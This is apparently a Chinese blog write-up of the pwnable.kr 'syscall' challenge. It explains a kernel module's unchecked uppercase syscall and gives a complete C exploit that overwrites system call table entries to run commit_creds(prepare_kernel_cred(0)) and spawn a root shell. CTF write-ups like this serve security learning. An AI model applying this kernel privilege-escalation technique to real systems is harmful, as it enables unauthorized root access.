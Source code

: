 ```yaml
---
layout: post
title: pwnable.kr syscall
date: 2023-05-23 14:57 +0800
---
```



## 题目描述

* 实现了一个内核模块，里面新增了一个系统调用，用于转成大写
  

从源码可以看到，这里没有对out进行任何校验
```c
asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

Linux系统下，每个进程拥有其对应的`struct cred`，用于记录该进程的uid。内核exploit的目的，便是修改当前进程的cred，从而提升权限。进程本身无法篡改自己的cred，我们需要在内核空间中，通过以下方式来达到这一目的：
`commit_creds(prepare_kernel_cred(0))`

* `prepare_kernel_cred`：创建一个新的cred，参数为0则将cred中的uid, gid设置为0，对应于root用户。* `commit_creds`将这个cred应用于当前进程。此时，进程便提升到了root权限。

这些方法的地址，可以通过`/proc/kallsyms`获取
```bash
/ $ cat /proc/kallsyms |grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/ $ cat /proc/kallsyms |grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

## 解法一：替换系统调用表地址
因为地址`0x8003f56c`的0x6c会受到SYS_UPPER这个自建系统调用的影响，因此考虑地址`0x8003f560`,此时只要把其前面的内容换成无意义指令即可。`0x90(nop)`不知道为何无法成功。
```asm
inc eax ; => \x40
```
### 寻找合适的系统调用
* 在`https://x86.syscall.sh/`上，可以找到所有的系统调用和他的参数
* 简单试了几个，如下目前是可用的，可以发现，几个参数没所谓

```bash
10 unlink (const char *pathname)
13 time (time_t *tloc)
25 stime (time_t *tptr)
93 ftruncate (unsigned int fd, unsigned long length)
100 fstatfs	(unsigned int fd, struct statfs *buf)
```


## 参考exp


```c
#include <stdio.h>
#include <stdlib.h>

#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define SYS_UPPER 223
unsigned int** sct;

unsigned int EXIT = 1;
unsigned int UNLINK = 10;

int main(int argc, char **argv){
    sct = (unsigned int**)SYS_CALL_TABLE;

    syscall(SYS_UPPER,    "\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40", (unsigned int**)(0x8003f560));
	
    syscall(SYS_UPPER, "\x24\xf9\x03\x80", &sct[EXIT]); //prepare_kernel_cred
    syscall(SYS_UPPER, "\x60\xf5\x03\x80", &sct[UNLINK]); //commit_creds

    syscall(UNLINK, syscall(EXIT, 0));

    system("/bin/sh");
    return 0;
}
```


